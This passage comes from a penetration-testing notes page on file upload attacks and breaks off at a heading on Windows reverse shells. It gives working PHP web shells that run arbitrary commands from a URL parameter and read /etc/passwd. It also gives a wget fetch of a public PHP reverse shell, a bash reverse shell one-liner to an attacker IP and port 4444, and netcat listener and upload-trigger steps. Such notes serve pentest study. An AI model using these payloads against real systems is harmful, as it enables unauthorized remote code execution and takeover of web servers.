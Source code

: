 
## [PHP Payloads](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#php-payloads)

After finding vulnerability, we can create a payload for exploiting the website.  
Here is the example payloads of **web shell** and **reverse shell** to compromise target system.

### [Web Shell](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#web-shell)

For example, the file name is "exploit.php".

```php
// Simply showing the result of 'whoami'.
<?php echo system('whoami'); ?>

// This shows the content of "/etc/passwd".
<?php echo file_get_contents('/etc/passwd');  ?>

// We can execute arbitrary commands by passing the url parameter e.g. "/exploit.php?cmd=whoami"
<?php echo system($_GET['cmd']); ?>
```

### [Reverse Shell for Linux](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#reverse-shell-for-linux)

```sh
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
# or
cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php

# Edit some variables in the payload
$ip = '<attacker-ip>'
$port = 4444
```

Or we might be able to use the following simple script.

```php
<?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"); ?>
```

Then open listener for getting a shell.

```sh
nc -lvnp 4444
```

After uploading it, reload the page in which the payload uploaded e.g. `"/upload/shell.php"`.

### [Reverse Shell for Windows](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#reverse-shell-for-windows)
